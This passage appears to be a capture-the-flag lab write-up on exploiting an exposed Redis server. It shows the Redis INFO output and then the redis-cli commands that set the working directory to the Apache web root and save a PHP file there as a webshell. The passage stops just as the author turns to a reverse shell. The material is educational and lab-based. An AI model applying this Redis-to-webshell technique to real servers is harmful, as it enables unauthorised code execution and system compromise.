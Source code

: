 ```
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.888000
used_cpu_user:0.924000
used_cpu_sys_children:0.000000
used_cpu_user_children:0.000000https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html?highlight=redis#redis-rce

# Modules

# Cluster
cluster_enabled:0

# Keyspace
10.10.52.131:6379> root@ip-10-10-126-129:~# redis-cli -h 10.10.52.131 
(error) ERR unknown command `root@ip-10-10-126-129:~#`, with args beginning with: `redis-cli`, `-h`, `10.10.52.131`, 
```

By browsing the internet there was a very insightful page that has a lot of valuable information about how a database like redis can be exploited. It's called https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html?highlight=redis#redis-rce

In here it gets mentioned that we can use a PHP webshell. The only thing we need to know for that is the path of the Web site folder. As we remember from the Default page of Apache the file is located at var/www/html. We set up the netcat listener and proceed to follow suit with the HackTricks instructions.

```
10.10.52.131:6379[1]> config set dir /var/www/html
OK
10.10.52.131:6379[1]> config set dbfilename redis.php
OK
10.10.52.131:6379[1]> set test "<?php phpinfo(); ?>"
OK
10.10.52.131:6379[1]> save
OK
```

Testing out the shell seemed to be a success. After checking out for said php file in the web site I got the following result.

<img width="976" height="873" alt="image" src="https://github.com/user-attachments/assets/f1ced7fd-445c-4aae-aca4-bceb6fcb8a37" />

Now it was time to execute a real reverse shell to compromise the machine
